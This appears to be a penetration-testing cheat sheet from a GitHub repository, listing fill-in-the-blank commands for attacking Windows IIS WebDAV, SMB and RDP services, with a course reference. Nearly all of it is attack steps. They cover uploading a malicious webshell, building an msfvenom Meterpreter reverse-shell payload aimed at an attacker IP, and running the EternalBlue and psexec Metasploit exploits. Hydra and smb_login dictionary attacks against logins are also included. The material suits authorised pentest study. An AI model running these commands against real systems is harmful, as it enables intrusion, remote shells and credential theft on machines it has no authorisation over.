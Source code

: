 # Windows Vulnerabilities

* [Microsoft ISS WebDAV](#microsoft-iss-webdav)
* [SMB](#smb)
* [RDP](#rdp)
* [References](#references)

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Microsoft ISS WebDAV
```
davtest -url [URL]
```
```
davtest -auth [USERNAME]:[PASSWORD] -url [URL]
```
```
cadaver [URL]
```
Once inside cadaver prompt:
```
put [MALICIOUS-WEBSHELL]
```
Now Check ISS WebDAV via internet browser to perform objectives...

### Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f asp > [FILENAME]
```
Now put payload on target machine by any means (cadaver works well, see command above)  

Next set up and start a listenr:  
```
service postgresql start && msfconsole
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
Set other required options and exploit

#### Automate the above process

```
use exploit/windows/iss/iss_webdav_upload_asp
```
Now set required options and exploit.  
****************************************

## SMB

### Metasploit
```
service postgresql start && msfconsole
```
#### Dictionary Attack
```
search smb_login
```
```
use auxiliary/scanner/smb/smb_login
```
Show options, set them, and exploit the target

#### PSExec Module
```
search psexec
```
```
exploit/windows/smb/psexec
```
Show options, set them, and exploit the target


### PSExec
```
psexec.py [USERNAME]@[TARGET-IP] cmd.exe
```

### Eternal Blue
Check for vulnerability:
```
nmap -sV -p 445 --script=smb-vuln-ms17-010 [TARGET-IP]
```
#### Auto Blue GitHub (Manual Exploit)
https://github.com/3ndG4me/AutoBlue-MS17-010

#### Metasploit
```
search eternalblue
```
Check for vulnerability:
```
use auxiliary/scanner/smb/smb_ms17_010
```
Exploitation:
```
use exploit/windows/smb/ms17_010_eternalblue
```
Show options, set them, and exploit

**************************************

## RDP

### Metasploit

```
search rdp_scanner
```
```
use auxiliary/scanner/rdp/rdp_scanner 
```
show options, set them, and run on target to show RDP info 

### hydra
Dictionary attack:
```
hydra -L [WORDLIST] -P [WORDLIST] rdp://[TARGET-IP] -s [NON-DEFAULT-PORT]
```

### xfreedrp
Login:
```
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[TARGET-IP]:[PORT]
```


**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
